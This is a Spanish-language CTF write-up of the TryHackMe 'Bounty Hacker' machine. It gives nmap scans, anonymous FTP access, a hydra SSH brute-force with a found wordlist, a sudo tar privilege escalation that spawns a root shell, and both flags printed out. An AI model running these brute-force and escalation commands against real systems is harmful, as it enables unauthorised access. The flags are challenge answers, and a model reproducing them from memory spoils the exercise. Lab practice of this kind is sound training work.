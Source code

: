 
# Summary
- IP: 10.10.1.131
- Ports: 21,22,80
- OS: Linux (Ubuntu Xenial)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
	-  80 -> Apache httpd 2.4.18

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.1.131 -oG allPorts
```


- Escaneo profundo de puertos:

```
$sudo nmap -p21,22,80 -sCV 10.10.1.131 -oN targeted
```


- Escaneo de página web:

```
$sudo nmap --script http-enum -p80 10.10.1.131 -oN webScan
```


- Podemos acceder via FTP como anonymous, encontramos dos archivos:

```
$ftp 10.10.1.131
```


- Un archivo contiene lo que parece ser un diccionario; analizamos la página web, pero no encontramos nada relevante.
- Con la información actual, hacemos un ataque de fuerza bruta con hydra para intentar logearnos como usuario "lin" (nombre encontrado en los recursos anteriormente enumerados) utilizando el diccionario descargado por ftp:

```
$hydra -l lin -P /home/dante/Tryhackme/Bounty_Hacker/content/locks.txt ssh://10.10.1.131
```

- Encontramos una credencial, accedemos a la máquina como lin:

```
$ssh lin@10.10.1.131
```


- Leemos la primera flag:
# USER FLAG: THM{CR1M3_SyNd1C4T3}

# ESCALANDO PRIVILEGIOS:

-  Buscamos binarios permitidos ejecutar como sudoer:

```
$sudo -l
```


- Podemos ejecutar el binario "tar", con una búsqueda en gtfobins encontramos la siguiente forma de escalar privilegios:

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- Leemos la flag de root:

# ROOT FLAG: THM{80UN7Y_h4cK3r}